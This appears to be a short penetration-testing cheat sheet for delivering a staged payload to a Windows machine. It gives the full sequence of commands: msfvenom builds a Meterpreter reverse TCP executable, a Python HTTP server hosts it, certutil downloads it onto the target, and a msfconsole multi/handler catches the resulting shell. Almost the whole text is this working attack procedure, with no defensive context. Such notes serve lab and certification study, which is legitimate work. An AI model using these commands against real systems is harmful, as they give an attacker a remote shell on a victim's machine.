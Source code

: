 #transfer files using python http server staged payload
> First create a file to transfer ex. 
```
msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<> LPORT=1234 -f exe > payload.exe
```

> Create http server via 
```
python -m SimpleHTTPServer 80
```
> 
> Then to get the file onto target cmd 
> 
```
certutil -urlcache -f http://<ip address>/<remote filename> <local filename
```

>  Finally use msfconsole to set up meterpreter mulit/handler


